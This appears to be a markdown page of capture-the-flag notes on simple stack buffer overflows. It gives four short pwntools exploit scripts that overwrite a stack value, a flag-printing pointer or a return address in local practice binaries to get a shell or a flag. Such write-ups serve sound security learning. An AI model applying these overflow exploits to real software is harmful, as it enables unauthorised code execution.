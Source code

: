 # Overwrite a Stack Value

Examples of simple buffer owverflows to edit a stack value and get a shell or flag.  

---

A check is made to see if a stack value has changed after our input is received.  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level="debug"
io = process("./boi")

offset = b"A" * 20              # Offset to the target value
value = b"\xee\xba\xf3\xca"     # New value to be set
payload = offset + value        # create the payload
io.recv()                       # Run the program and receive lines
io.send(payload)                # Send the payload
io.interactive()                # Interact with the shell
```

---

Same principal as above  

```python3
from pwn import *

context.log_level="debug"
io = process("./pwn1")

# What is your name?
io.sendline(b"Sir Lancelot of Camelot")

# What is your quest?

io.sendline(b"To seek the Holy Grail.")

# What is your secret
payload = b"A" * 43 + b"\xc8\x10\xa1\xde"
io.sendline(payload)

# Win
io.recv()
```

---

The flag is read from a file and stored on the stack. We can overwrite the address that is called to print to the screen.  

```python3
from pwn import *

# RET2 Flag location
# Flag at 0x804a080

context.log_level="debug"
io = process("./just_do_it")

# payload = b"P@SSW0RD\x00"
junk = b"\x00" * 20
addr = p32(0x804a080)
payload = junk + addr
io.sendline(payload)

# Win
io.interactive()
```

---

Overwrite a format specifier in the first input.  
The second input overwrites a return address which you can point to a function that prints the flag.  

```python
#!/usr/bin/env python3
from pwn import *

context.log_level="debug"

io = process("./vuln-chat")

payload1 = b"A" * 20
payload1 += b"%99s"
io.recvuntil("username: ")
io.sendline(payload1)

payload2 = b"A" * 49
payload2 += p32(0x0804856b)
io.recvuntil("But how do I know I can trust you?\n")
io.sendline(payload2)
io.interactive()
```
